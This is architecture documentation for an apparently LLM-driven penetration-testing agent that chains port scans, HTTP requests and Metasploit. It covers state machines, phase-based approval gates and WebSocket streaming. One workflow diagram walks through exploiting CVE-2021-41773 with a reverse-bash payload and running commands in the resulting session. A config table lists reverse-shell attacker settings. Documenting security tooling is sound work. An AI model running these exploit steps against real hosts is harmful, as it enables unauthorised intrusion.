# RedAmon Agentic System

## Overview

The **RedAmon Agentic System** is an AI-powered penetration testing orchestrator built on **LangGraph**. It implements the **ReAct (Reasoning and Acting)** pattern to autonomously conduct security assessments while maintaining human oversight through phase-based approval workflows.

---

## Table of Contents

1. [Architecture Overview](#architecture-overview)
2. [Core Components](#core-components)
3. [LangGraph State Machine](#langgraph-state-machine)
4. [Tool Execution & MCP Integration](#tool-execution--mcp-integration)
5. [WebSocket Streaming](#websocket-streaming)
6. [Frontend Integration](#frontend-integration)
7. [Detailed Workflows](#detailed-workflows)
8. [Multi-Objective Support](#multi-objective-support)
9. [Security & Multi-Tenancy](#security--multi-tenancy)

---

## Architecture Overview


```mermaid
flowchart TB
    subgraph Frontend["Frontend (Next.js Webapp)"]
        UI[AIAssistantDrawer]
        Hook[useAgentWebSocket Hook]
        Timeline[AgentTimeline]
        Dialogs[Approval/Question Dialogs]
    end

    subgraph Backend["Backend (FastAPI)"]
        WS[WebSocket API]
        REST[REST API]
        WSM[WebSocketManager]
    end

    subgraph Orchestrator["Agent Orchestrator"]
        LG[LangGraph State Machine]
        CP[MemorySaver Checkpointer]
        SC[StreamingCallback]
    end

    subgraph Tools["Tool Layer"]
        TE[PhaseAwareToolExecutor]
        MCP[MCPToolsManager]
        N4J[Neo4jToolManager]
    end

    subgraph MCPServers["MCP Servers (Docker)"]
        NAABU[Naabu Server :8000]
        CURL[Curl Server :8001]
        MSF[Metasploit Server :8003]
    end

    subgraph Data["Data Layer"]
        NEO4J[(Neo4j Graph DB)]
        KALI[Kali Sandbox Container]
    end

    UI --> Hook
    Hook <-->|WebSocket JSON| WS
    WS --> WSM
    WSM --> LG
    LG --> CP
    LG --> SC
    SC -->|Streaming Events| WSM

    LG --> TE
    TE --> MCP
    TE --> N4J

    MCP --> NAABU
    MCP --> CURL
    MCP --> MSF

    N4J --> NEO4J
    MSF --> KALI
    NAABU --> KALI
    CURL --> KALI
```

---

## Core Components

### File Structure

| File | Purpose |
|------|---------|
| `orchestrator.py` | Main LangGraph agent with ReAct pattern |
| `state.py` | Pydantic models and TypedDict state definitions |
| `prompts.py` | System prompts for LLM reasoning |
| `tools.py` | MCP and Neo4j tool management |
| `api.py` | REST API endpoints |
| `websocket_api.py` | WebSocket streaming API |
| `params.py` | Configuration parameters |
| `utils.py` | Utility functions |

### Key Classes


```mermaid
classDiagram
    class AgentOrchestrator {
        +llm: ChatOpenAI
        +tool_executor: PhaseAwareToolExecutor
        +graph: StateGraph
        +initialize()
        +invoke(question, user_id, project_id, session_id)
        +invoke_with_streaming(question, ..., streaming_callback)
        +resume_after_approval(...)
        +resume_after_answer(...)
    }

    class PhaseAwareToolExecutor {
        +mcp_manager: MCPToolsManager
        +graph_tool: Neo4jToolManager
        +phase_tools: Dict
        +execute(tool_name, tool_args, phase)
        +get_tools_for_phase(phase)
    }

    class MCPToolsManager {
        +servers: List[MCPServer]
        +tools_cache: Dict
        +get_tools()
        +call_tool(tool_name, args)
    }

    class Neo4jToolManager {
        +driver: Neo4jDriver
        +llm: ChatOpenAI
        +query_graph(question, user_id, project_id)
    }

    class StreamingCallback {
        <<interface>>
        +on_thinking(iteration, phase, thought, reasoning)
        +on_tool_start(tool_name, tool_args)
        +on_tool_output_chunk(tool_name, chunk, is_final)
        +on_tool_complete(tool_name, success, output_summary)
        +on_phase_update(current_phase, iteration_count)
        +on_approval_request(approval_request)
        +on_question_request(question_request)
        +on_response(answer, iteration_count, phase, task_complete)
    }

    AgentOrchestrator --> PhaseAwareToolExecutor
    AgentOrchestrator --> StreamingCallback
    PhaseAwareToolExecutor --> MCPToolsManager
    PhaseAwareToolExecutor --> Neo4jToolManager
```

---

## LangGraph State Machine

### State Definition

The agent maintains comprehensive state throughout execution:


```mermaid
erDiagram
    AgentState {
        list messages "Conversation history"
        int current_iteration "Current loop iteration"
        int max_iterations "Maximum allowed iterations"
        string current_phase "informational|exploitation|post_exploitation"
        bool task_complete "Whether objective is achieved"
        string completion_reason "Why task ended"
    }

    AgentState ||--o{ ExecutionStep : execution_trace
    AgentState ||--o{ TodoItem : todo_list
    AgentState ||--o{ ConversationObjective : conversation_objectives
    AgentState ||--o{ ObjectiveOutcome : objective_history
    AgentState ||--o{ PhaseHistoryEntry : phase_history
    AgentState ||--o{ QAHistoryEntry : qa_history
    AgentState ||--|| TargetInfo : target_info
    AgentState ||--o| PhaseTransitionRequest : phase_transition_pending
    AgentState ||--o| UserQuestionRequest : pending_question

    ExecutionStep {
        int iteration "Step number"
        string phase "Phase during step"
        string thought "LLM reasoning"
        string reasoning "Why this action"
        string tool_name "Tool executed"
        dict tool_args "Tool arguments"
        string tool_output "Raw tool output"
        bool success "Execution success"
        string output_analysis "LLM analysis of output"
    }

    TargetInfo {
        string primary_target "Main target IP/domain"
        list ports "Discovered ports"
        list services "Detected services"
        list technologies "Identified technologies"
        list vulnerabilities "Found vulnerabilities"
        list credentials "Extracted credentials"
        list sessions "Active Metasploit sessions"
    }

    TodoItem {
        string description "Task description"
        string status "pending|in_progress|completed|blocked"
        string priority "high|medium|low"
    }
```

### Graph Structure


```mermaid
stateDiagram-v2
    [*] --> initialize

    initialize --> process_approval: Has approval response
    initialize --> process_answer: Has question answer
    initialize --> think: Normal flow

    think --> execute_tool: action=use_tool
    think --> await_approval: action=transition_phase (needs approval)
    think --> await_question: action=ask_user
    think --> generate_response: action=complete OR max_iterations

    execute_tool --> analyze_output

    analyze_output --> think: Continue iteration
    analyze_output --> generate_response: Task complete OR max_iterations

    await_approval --> [*]: Pauses for user input

    process_approval --> think: Approved or modified
    process_approval --> generate_response: Aborted

    await_question --> [*]: Pauses for user input

    process_answer --> think: Continue with answer
    process_answer --> generate_response: If task complete

    generate_response --> [*]
```

### Node Responsibilities


```mermaid
flowchart LR
    subgraph Nodes["LangGraph Nodes"]
        direction TB
        INIT[initialize]
        THINK[think]
        EXEC[execute_tool]
        ANALYZE[analyze_output]
        AWAIT_A[await_approval]
        PROC_A[process_approval]
        AWAIT_Q[await_question]
        PROC_Q[process_answer]
        GEN[generate_response]
    end

    subgraph InitDesc["Initialize Node"]
        I1[Setup state for new session]
        I2[Detect multi-objective scenarios]
        I3[Route approval/answer resumption]
        I4[Migrate legacy state]
    end

    subgraph ThinkDesc["Think Node - LLM Call #1"]
        T1[Build system prompt with context]
        T2[Format execution trace]
        T3[Get LLM decision JSON]
        T4[Parse action: use_tool/transition_phase/complete/ask_user]
        T5[Update todo list]
    end

    subgraph ExecDesc["Execute Tool Node"]
        E1[Validate tool for current phase]
        E2[Set tenant context]
        E3[Auto-reset Metasploit on first use]
        E4[Execute via MCP or Neo4j]
        E5[Capture output and errors]
    end

    subgraph AnalyzeDesc["Analyze Output Node - LLM Call #2"]
        A1[Truncate output if too long]
        A2[LLM interprets tool output]
        A3[Extract target info: ports, services, vulns]
        A4[Identify actionable findings]
        A5[Recommend next steps]
        A6[Add step to execution trace]
    end

    subgraph GenDesc["Generate Response Node - LLM Call #3"]
        G1[Build final report prompt]
        G2[Summarize session findings]
        G3[Mark task complete]
    end

    INIT -.-> InitDesc
    THINK -.-> ThinkDesc
    EXEC -.-> ExecDesc
    ANALYZE -.-> AnalyzeDesc
    GEN -.-> GenDesc
```

---

## Tool Execution & MCP Integration

### Phase-Based Tool Access


```mermaid
flowchart TB
    subgraph Phases["Security Phases"]
        INFO[Informational Phase]
        EXPL[Exploitation Phase]
        POST[Post-Exploitation Phase]
    end

    subgraph InfoTools["Informational Tools"]
        QG[query_graph<br/>Neo4j queries]
        CURL[execute_curl<br/>HTTP requests]
        NAABU[execute_naabu<br/>Port scanning]
    end

    subgraph ExplTools["Exploitation Tools"]
        MSF[metasploit_console<br/>msfconsole commands]
    end

    subgraph PostTools["Post-Exploitation Tools"]
        SESS[msf_session_run<br/>Session commands]
        WAIT[msf_wait_for_session<br/>Session polling]
        LIST[msf_list_sessions<br/>List active sessions]
    end

    INFO --> InfoTools
    EXPL --> InfoTools
    EXPL --> ExplTools
    POST --> InfoTools
    POST --> ExplTools
    POST --> PostTools

    style INFO fill:#90EE90
    style EXPL fill:#FFD700
    style POST fill:#FF6B6B
```

### MCP Tool Execution Flow


```mermaid
sequenceDiagram
    participant O as Orchestrator
    participant TE as ToolExecutor
    participant MCP as MCPToolsManager
    participant S as MCP Server
    participant K as Kali Container

    O->>TE: execute("naabu", {target: "192.168.1.1"}, "informational")
    TE->>TE: Validate phase allows tool
    TE->>TE: set_tenant_context(user_id, project_id)
    TE->>MCP: call_tool("naabu", args)
    MCP->>S: HTTP POST /tools/naabu
    S->>K: Execute naabu command
    K-->>S: Port scan results
    S-->>MCP: JSON response
    MCP-->>TE: Formatted output
    TE-->>O: {success: true, output: "..."}
```

### Neo4j Query Flow (Text-to-Cypher)


```mermaid
sequenceDiagram
    participant O as Orchestrator
    participant N4J as Neo4jToolManager
    participant LLM as OpenAI LLM
    participant DB as Neo4j Database

    O->>N4J: query_graph("What ports are open on 192.168.1.1?")
    N4J->>LLM: Generate Cypher from question
    LLM-->>N4J: MATCH (i:IP {address: '192.168.1.1'})-[:HAS_PORT]->(p:Port) RETURN p
    N4J->>N4J: Inject tenant filter (user_id, project_id)
    N4J->>DB: Execute Cypher query

    alt Query Success
        DB-->>N4J: Query results
        N4J-->>O: Formatted results
    else Query Error
        DB-->>N4J: Error message
        N4J->>LLM: Retry with error context
        LLM-->>N4J: Fixed Cypher query
        N4J->>DB: Execute fixed query
        DB-->>N4J: Results
        N4J-->>O: Formatted results
    end
```

### Metasploit Stateful Execution


```mermaid
flowchart TB
    subgraph MSFServer["Metasploit MCP Server"]
        PROC[Persistent msfconsole Process]
        READER[Background Output Reader Thread]
        QUEUE[Output Queue Buffer]
    end

    subgraph Commands["One Command Per Call"]
        C1["search CVE-2021-41773"]
        C2["use exploit/multi/http/..."]
        C3["info"]
        C4["show targets"]
        C5["set TARGET 0"]
        C6["show payloads"]
        C7["set PAYLOAD cmd/unix/reverse_bash"]
        C8["set RHOSTS 192.168.1.100"]
        C9["exploit"]
        C10["msf_wait_for_session()"]
    end

    C1 --> PROC
    C2 --> PROC
    C3 --> PROC
    C4 --> PROC
    C5 --> PROC
    C6 --> PROC
    C7 --> PROC
    C8 --> PROC
    C9 --> PROC

    PROC --> READER
    READER --> QUEUE
    QUEUE --> |Timing-based detection| OUTPUT[Clean Output]

    C10 --> |Separate MCP tool| POLL[Poll for sessions]
    POLL --> |sessions -l| PROC

    style PROC fill:#FF6B6B
    style C10 fill:#FFD700
```

---

## WebSocket Streaming

### Message Protocol

```mermaid
flowchart LR
    subgraph Client["Client → Server"]
        INIT[init<br/>{user_id, project_id, session_id}]
        QUERY[query<br/>{question}]
        APPROVAL[approval<br/>{decision, modification}]
        ANSWER[answer<br/>{answer}]
        PING[ping<br/>{}]
    end

    subgraph Server["Server → Client"]
        CONNECTED[connected]
        THINKING[thinking<br/>{iteration, phase, thought, reasoning}]
        TOOL_START[tool_start<br/>{tool_name, tool_args}]
        TOOL_CHUNK[tool_output_chunk<br/>{tool_name, chunk, is_final}]
        TOOL_COMPLETE[tool_complete<br/>{tool_name, success, output_summary}]
        PHASE_UPDATE[phase_update<br/>{current_phase, iteration_count}]
        TODO_UPDATE[todo_update<br/>{todo_list}]
        APPROVAL_REQ[approval_request<br/>{from_phase, to_phase, reason, risks}]
        QUESTION_REQ[question_request<br/>{question, context, format, options}]
        RESPONSE[response<br/>{answer, task_complete}]
        EXEC_STEP[execution_step<br/>{step summary}]
        TASK_DONE[task_complete<br/>{message, final_phase}]
        ERROR[error<br/>{message, recoverable}]
    end
```

### Streaming Event Flow


```mermaid
sequenceDiagram
    participant C as Client (Browser)
    participant WS as WebSocket API
    participant O as Orchestrator
    participant CB as StreamingCallback

    C->>WS: init {user_id, project_id, session_id}
    WS-->>C: connected

    C->>WS: query {question: "Scan ports on 192.168.1.1"}
    WS->>O: invoke_with_streaming(question, callback)

    loop For each graph event
        O->>CB: on_phase_update("informational", 1)
        CB-->>WS: phase_update message
        WS-->>C: {type: "phase_update", ...}

        O->>CB: on_thinking(1, "informational", "Need to scan...", "Port scan required")
        CB-->>WS: thinking message
        WS-->>C: {type: "thinking", ...}

        O->>CB: on_tool_start("naabu", {target: "192.168.1.1"})
        CB-->>WS: tool_start message
        WS-->>C: {type: "tool_start", ...}

        O->>CB: on_tool_output_chunk("naabu", "22/tcp open\n80/tcp open", true)
        CB-->>WS: tool_output_chunk message
        WS-->>C: {type: "tool_output_chunk", ...}

        O->>CB: on_tool_complete("naabu", true, "Found 2 open ports")
        CB-->>WS: tool_complete message
        WS-->>C: {type: "tool_complete", ...}

        O->>CB: on_todo_update([{description: "Analyze services", status: "pending"}])
        CB-->>WS: todo_update message
        WS-->>C: {type: "todo_update", ...}
    end

    O->>CB: on_response("Scan complete. Found ports 22, 80.", 3, "informational", true)
    CB-->>WS: response message
    WS-->>C: {type: "response", ...}

    O->>CB: on_task_complete("Task completed", "informational", 3)
    CB-->>WS: task_complete message
    WS-->>C: {type: "task_complete", ...}
```

---

## Frontend Integration

### useAgentWebSocket Hook


```mermaid
stateDiagram-v2
    [*] --> DISCONNECTED

    DISCONNECTED --> CONNECTING: connect()

    CONNECTING --> CONNECTED: WebSocket open + init success
    CONNECTING --> FAILED: Connection error

    CONNECTED --> RECONNECTING: WebSocket close/error
    CONNECTED --> DISCONNECTED: disconnect()

    RECONNECTING --> CONNECTING: Retry attempt
    RECONNECTING --> FAILED: Max retries exceeded

    FAILED --> CONNECTING: reconnect()
```

### UI State Management


```mermaid
flowchart TB
    subgraph State["AIAssistantDrawer State"]
        ITEMS[chatItems: Array]
        PHASE[currentPhase: string]
        AWAIT_A[awaitingApproval: boolean]
        AWAIT_Q[awaitingQuestion: boolean]
        TODO[todoList: Array]
    end

    subgraph Events["WebSocket Events"]
        E_THINK[thinking]
        E_TOOL[tool_start/complete]
        E_PHASE[phase_update]
        E_TODO[todo_update]
        E_APPR[approval_request]
        E_QUES[question_request]
        E_RESP[response]
    end

    subgraph UI["UI Components"]
        TIMELINE[AgentTimeline]
        DIALOG_A[ApprovalDialog]
        DIALOG_Q[QuestionDialog]
        TODO_W[TodoListWidget]
        CHAT[ChatMessages]
    end

    E_THINK --> |Add ThinkingItem| ITEMS
    E_TOOL --> |Add ToolExecutionItem| ITEMS
    E_RESP --> |Add MessageItem| ITEMS
    E_PHASE --> PHASE
    E_TODO --> TODO
    E_APPR --> AWAIT_A
    E_QUES --> AWAIT_Q

    ITEMS --> TIMELINE
    ITEMS --> CHAT
    AWAIT_A --> DIALOG_A
    AWAIT_Q --> DIALOG_Q
    TODO --> TODO_W
    PHASE --> |Phase badge styling| TIMELINE
```

---

## Detailed Workflows

### Complete Agent Execution Flow


```mermaid
flowchart TB
    START([User sends question]) --> INIT[Initialize Node]

    INIT --> CHECK_RESUME{Resuming after<br/>approval/answer?}
    CHECK_RESUME -->|Yes, approval| PROC_A[Process Approval]
    CHECK_RESUME -->|Yes, answer| PROC_Q[Process Answer]
    CHECK_RESUME -->|No| THINK[Think Node]

    PROC_A --> THINK
    PROC_Q --> THINK

    THINK --> |"LLM Decision"| DECISION{Action?}

    DECISION -->|use_tool| EXEC[Execute Tool]
    DECISION -->|transition_phase| PHASE_CHECK{Needs approval?}
    DECISION -->|ask_user| AWAIT_Q[Await Question]
    DECISION -->|complete| GEN[Generate Response]

    EXEC --> ANALYZE[Analyze Output]
    ANALYZE --> ITER_CHECK{Max iterations?}
    ITER_CHECK -->|No| THINK
    ITER_CHECK -->|Yes| GEN

    PHASE_CHECK -->|Yes| AWAIT_A[Await Approval]
    PHASE_CHECK -->|No, auto-approve| UPDATE_PHASE[Update Phase]
    UPDATE_PHASE --> THINK

    AWAIT_A --> PAUSE_A([Pause - Wait for user])
    PAUSE_A --> |User responds| PROC_A

    AWAIT_Q --> PAUSE_Q([Pause - Wait for user])
    PAUSE_Q --> |User answers| PROC_Q

    GEN --> END([Return response])

    style START fill:#90EE90
    style END fill:#90EE90
    style PAUSE_A fill:#FFD700
    style PAUSE_Q fill:#FFD700
    style THINK fill:#87CEEB
    style ANALYZE fill:#87CEEB
    style GEN fill:#87CEEB
```

### Phase Transition Approval Flow


```mermaid
sequenceDiagram
    participant A as Agent (Think Node)
    participant O as Orchestrator
    participant WS as WebSocket
    participant U as User (Frontend)

    A->>O: Decision: transition_phase to "exploitation"
    O->>O: Check REQUIRE_APPROVAL_FOR_EXPLOITATION

    alt Approval Required
        O->>O: Store phase_transition_pending
        O->>O: Set awaiting_user_approval = true
        O->>WS: Send approval_request message
        WS->>U: Display approval dialog

        Note over O,U: Graph pauses at await_approval node (END)

        U->>WS: User decision (approve/modify/abort)
        WS->>O: Resume with user_approval_response

        alt User Approved
            O->>O: Update current_phase = "exploitation"
            O->>O: Add to phase_history
            O->>O: Clear approval state
            O->>A: Continue in new phase
        else User Modified
            O->>O: Add modification to messages
            O->>O: Clear approval state
            O->>A: Continue with modification context
        else User Aborted
            O->>O: Set task_complete = true
            O->>O: Generate final response
        end
    else Auto-Approve (downgrade to informational)
        O->>O: Update current_phase immediately
        O->>A: Continue in new phase
    end
```

### Exploitation Workflow (Metasploit)


```mermaid
sequenceDiagram
    participant U as User
    participant A as Agent
    participant MSF as Metasploit Server
    participant T as Target

    U->>A: "Exploit CVE-2021-41773 on 192.168.1.100"

    Note over A: Phase: Informational
    A->>A: Query graph for target info
    A->>A: Request phase transition to exploitation

    U->>A: Approve transition

    Note over A: Phase: Exploitation

    A->>MSF: search CVE-2021-41773
    MSF-->>A: exploit/multi/http/apache_normalize_path_rce

    A->>MSF: use exploit/multi/http/apache_normalize_path_rce
    MSF-->>A: Module loaded

    A->>MSF: info
    MSF-->>A: Module options and description

    A->>MSF: show targets
    MSF-->>A: 0: Unix Command, 1: Linux Dropper

    A->>MSF: set TARGET 0
    MSF-->>A: TARGET => 0

    A->>MSF: show payloads
    MSF-->>A: Compatible payloads list

    A->>MSF: set PAYLOAD cmd/unix/reverse_bash
    MSF-->>A: PAYLOAD => cmd/unix/reverse_bash

    A->>MSF: set RHOSTS 192.168.1.100
    MSF-->>A: RHOSTS => 192.168.1.100

    A->>MSF: set LHOST 192.168.1.50
    MSF-->>A: LHOST => 192.168.1.50

    A->>MSF: exploit
    MSF->>T: Send exploit payload
    T-->>MSF: Reverse shell connects
    MSF-->>A: "Sending stage..."

    Note over A: Use separate tool for session wait
    A->>MSF: msf_wait_for_session(timeout=120)
    MSF-->>A: Session 1 opened

    A->>MSF: sessions -l
    MSF-->>A: Active sessions list

    A->>A: Request phase transition to post_exploitation
    U->>A: Approve transition

    Note over A: Phase: Post-Exploitation
    A->>MSF: msf_session_run(1, "whoami")
    MSF->>T: Execute command in session
    T-->>MSF: "www-data"
    MSF-->>A: Command output
```

### Q&A Interaction Flow


```mermaid
sequenceDiagram
    participant A as Agent (Think Node)
    participant O as Orchestrator
    participant WS as WebSocket
    participant U as User (Frontend)

    A->>O: Decision: ask_user with question
    O->>O: Store pending_question
    O->>O: Set awaiting_user_question = true
    O->>WS: Send question_request message

    WS->>U: Display question dialog
    Note over U: Dialog shows question, context, format<br/>(text/single_choice/multi_choice)

    Note over O,U: Graph pauses at await_question node (END)

    U->>WS: User provides answer
    WS->>O: Resume with user_question_answer

    O->>O: Create QAHistoryEntry
    O->>O: Add to qa_history
    O->>O: Clear question state
    O->>O: Add answer to messages context

    O->>A: Continue with answer in context

    Note over A: Agent can reference qa_history<br/>in future decisions
```

### Multi-Objective Session Flow

```mermaid
flowchart TB
    subgraph Objective1["Objective #1: Port scan"]
        O1_START[User: "Scan ports on 192.168.1.1"]
        O1_WORK[Agent executes naabu scan]
        O1_DONE[Objective completed]
    end

    subgraph Objective2["Objective #2: Vulnerability scan"]
        O2_START[User: "Check for CVEs"]
        O2_DETECT[Detect new message after completion]
        O2_CREATE[Create new ConversationObjective]
        O2_WORK[Agent queries graph + analyzes]
        O2_DONE[Objective completed]
    end

    subgraph Objective3["Objective #3: Exploit"]
        O3_START[User: "Exploit CVE-2021-41773"]
        O3_PHASE[Phase transition to exploitation]
        O3_WORK[Agent runs Metasploit]
        O3_DONE[Objective completed]
    end

    subgraph State["Persistent State"]
        TRACE[execution_trace: All steps preserved]
        TARGET[target_info: Accumulates across objectives]
        HISTORY[objective_history: Completed objectives]
        QA[qa_history: All Q&A preserved]
    end

    O1_START --> O1_WORK --> O1_DONE
    O1_DONE --> O2_START
    O2_START --> O2_DETECT --> O2_CREATE --> O2_WORK --> O2_DONE
    O2_DONE --> O3_START
    O3_START --> O3_PHASE --> O3_WORK --> O3_DONE

    O1_DONE -.-> |Archive| HISTORY
    O2_DONE -.-> |Archive| HISTORY
    O3_DONE -.-> |Archive| HISTORY

    O1_WORK -.-> TRACE
    O2_WORK -.-> TRACE
    O3_WORK -.-> TRACE

    O1_WORK -.-> TARGET
    O2_WORK -.-> TARGET
    O3_WORK -.-> TARGET

    style Objective1 fill:#90EE90
    style Objective2 fill:#87CEEB
    style Objective3 fill:#FFD700
```

---

## Multi-Objective Support

The system handles continuous conversations where users ask multiple sequential questions:


```mermaid
flowchart LR
    subgraph Detection["New Objective Detection"]
        MSG[New user message arrives]
        CHECK{task_complete<br/>from previous?}
        DIFF{Message differs<br/>from current objective?}
        CREATE[Create new ConversationObjective]
    end

    subgraph Archive["Objective Archival"]
        COMPLETE[Current objective completed]
        OUTCOME[Create ObjectiveOutcome]
        STORE[Add to objective_history]
        PRESERVE[Preserve execution_trace,<br/>target_info, qa_history]
    end

    subgraph Phase["Phase Management"]
        INFER[Infer required_phase from keywords]
        DOWN{Downgrade to<br/>informational?}
        AUTO[Auto-transition<br/>no approval needed]
        UP{Upgrade to<br/>exploitation?}
        APPROVAL[Require user approval]
    end

    MSG --> CHECK
    CHECK -->|Yes| CREATE
    CHECK -->|No| DIFF
    DIFF -->|Yes| CREATE

    COMPLETE --> OUTCOME --> STORE --> PRESERVE

    CREATE --> INFER
    INFER --> DOWN
    DOWN -->|Yes| AUTO
    DOWN -->|No| UP
    UP -->|Yes| APPROVAL
```

### Objective State Fields

| Field | Purpose |
|-------|---------|
| `conversation_objectives` | List of all objectives (current + future) |
| `current_objective_index` | Which objective is being worked on |
| `objective_history` | Completed objectives with their outcomes |
| `original_objective` | Backward compatibility with single-objective sessions |

---

## Security & Multi-Tenancy

### Tenant Isolation

```mermaid
flowchart TB
    subgraph Request["Incoming Request"]
        USER[user_id: "user123"]
        PROJ[project_id: "proj456"]
        SESS[session_id: "sess789"]
    end

    subgraph Context["Context Injection"]
        SET_CTX[set_tenant_context<br/>set_phase_context]
        THREAD[Thread-local variables]
    end

    subgraph Neo4j["Neo4j Query Filtering"]
        QUERY[LLM generates Cypher]
        INJECT[Inject tenant filter]
        FILTERED["WHERE n.user_id = 'user123'<br/>AND n.project_id = 'proj456'"]
    end

    subgraph Checkpoint["Session Checkpointing"]
        CONFIG[LangGraph config with thread_id]
        MEMORY[MemorySaver stores state]
        RESUME[Resume from exact state]
    end

    USER --> SET_CTX
    PROJ --> SET_CTX
    SESS --> CONFIG

    SET_CTX --> THREAD
    THREAD --> INJECT
    QUERY --> INJECT --> FILTERED

    CONFIG --> MEMORY
    MEMORY --> RESUME
```

### Phase-Based Access Control

```mermaid
flowchart TB
    subgraph Params["Configuration (params.py)"]
        REQ_EXPL[REQUIRE_APPROVAL_FOR_EXPLOITATION]
        REQ_POST[REQUIRE_APPROVAL_FOR_POST_EXPLOITATION]
        ACT_POST[ACTIVATE_POST_EXPL_PHASE]
        POST_TYPE[POST_EXPL_PHASE_TYPE]
    end

    subgraph Validation["Tool Execution Validation"]
        CHECK_PHASE{Tool allowed<br/>in current phase?}
        ALLOW[Execute tool]
        DENY[Return error:<br/>"Tool not available in phase"]
    end

    subgraph Transition["Phase Transition"]
        TO_INFO[To informational]
        TO_EXPL[To exploitation]
        TO_POST[To post_exploitation]
        AUTO_OK[Auto-approve<br/>safe downgrade]
        NEED_APPROVAL[Require user approval]
        BLOCKED[Block if disabled]
    end

    CHECK_PHASE -->|Yes| ALLOW
    CHECK_PHASE -->|No| DENY

    TO_INFO --> AUTO_OK
    TO_EXPL --> |REQ_EXPL=true| NEED_APPROVAL
    TO_EXPL --> |REQ_EXPL=false| AUTO_OK
    TO_POST --> |ACT_POST=false| BLOCKED
    TO_POST --> |REQ_POST=true| NEED_APPROVAL
    TO_POST --> |REQ_POST=false| AUTO_OK
```

---

## Error Handling & Resilience

### LLM Response Parsing

```mermaid
flowchart TB
    RESPONSE[LLM Response Text]

    EXTRACT[Extract JSON from response]
    EXTRACT --> PARSE{Parse JSON?}

    PARSE -->|Success| VALIDATE[Pydantic validation]
    PARSE -->|Fail| FALLBACK_JSON[Try extract partial fields]

    VALIDATE -->|Success| DECISION[LLMDecision object]
    VALIDATE -->|Fail| PREPROCESS[Preprocess: remove empty objects]

    PREPROCESS --> VALIDATE2[Retry validation]
    VALIDATE2 -->|Success| DECISION
    VALIDATE2 -->|Fail| FALLBACK_DECISION[Fallback LLMDecision<br/>action=complete with error]

    FALLBACK_JSON --> FALLBACK_ANALYSIS[Fallback OutputAnalysis<br/>with best-effort interpretation]
```

### Metasploit Output Cleaning

```mermaid
flowchart LR
    RAW[Raw msfconsole output]

    ANSI[Remove ANSI escape sequences]
    CR[Handle carriage returns]
    CTRL[Remove control characters]
    ECHO[Filter garbled echo lines]
    TIMING[Timing-based output detection<br/>Wait for quiet period]

    RAW --> ANSI --> CR --> CTRL --> ECHO --> TIMING --> CLEAN[Clean output]
```

### Neo4j Query Retry

```mermaid
flowchart TB
    QUESTION[Natural language question]

    GEN[LLM generates Cypher]
    EXEC[Execute query]

    EXEC --> CHECK{Success?}
    CHECK -->|Yes| RESULT[Return results]
    CHECK -->|No| RETRY_CHECK{Retries < MAX?}

    RETRY_CHECK -->|Yes| CONTEXT[Add error context to prompt]
    RETRY_CHECK -->|No| ERROR[Return error message]

    CONTEXT --> GEN
```

---

## Configuration Reference

### Key Parameters (params.py)

| Parameter | Default | Description |
|-----------|---------|-------------|
| `OPENAI_MODEL` | "gpt-4o" | LLM model for reasoning |
| `MAX_ITERATIONS` | 15 | Maximum ReAct loop iterations |
| `REQUIRE_APPROVAL_FOR_EXPLOITATION` | true | Require user approval for exploitation phase |
| `REQUIRE_APPROVAL_FOR_POST_EXPLOITATION` | true | Require user approval for post-exploitation |
| `ACTIVATE_POST_EXPL_PHASE` | false | Enable post-exploitation phase |
| `POST_EXPL_PHASE_TYPE` | "stateless" | "stateless" or "statefull" session mode |
| `TOOL_OUTPUT_MAX_CHARS` | 10000 | Truncate tool output for LLM analysis |

### Environment Variables

| Variable | Required | Description |
|----------|----------|-------------|
| `OPENAI_API_KEY` | Yes | OpenAI API key for LLM calls |
| `NEO4J_URI` | Yes | Neo4j connection URI |
| `NEO4J_USER` | Yes | Neo4j username |
| `NEO4J_PASSWORD` | Yes | Neo4j password |
| `LHOST` | For statefull | Attacker IP for reverse shells |
| `LPORT` | For statefull | Attacker port for reverse shells |

---

## Running the System

### Start MCP Servers

```bash
cd mcp/
docker-compose up -d
```

### Start Agentic API

```bash
cd agentic/
docker-compose up -d
# Or for development:
uvicorn api:app --reload --port 8080
```

### WebSocket Connection

```javascript
const ws = new WebSocket('ws://localhost:8080/ws');

// Authenticate
ws.send(JSON.stringify({
  type: 'init',
  user_id: 'user123',
  project_id: 'proj456',
  session_id: 'sess789'
}));

// Send query
ws.send(JSON.stringify({
  type: 'query',
  question: 'Scan ports on 192.168.1.1'
}));

// Handle responses
ws.onmessage = (event) => {
  const msg = JSON.parse(event.data);
  console.log(msg.type, msg);
};
```

---

## Summary

The RedAmon Agentic System provides:

1. **Autonomous Reasoning** - LangGraph-based ReAct pattern for intelligent decision making
2. **Phase-Based Security** - Controlled progression through informational → exploitation → post-exploitation
3. **Human Oversight** - Approval workflows for risky phase transitions
4. **Real-Time Feedback** - WebSocket streaming for live UI updates
5. **Multi-Tenancy** - Isolated sessions with tenant-filtered data access
6. **Stateful Exploitation** - Persistent Metasploit sessions for complex attacks
7. **Multi-Objective Support** - Continuous conversations with context preservation
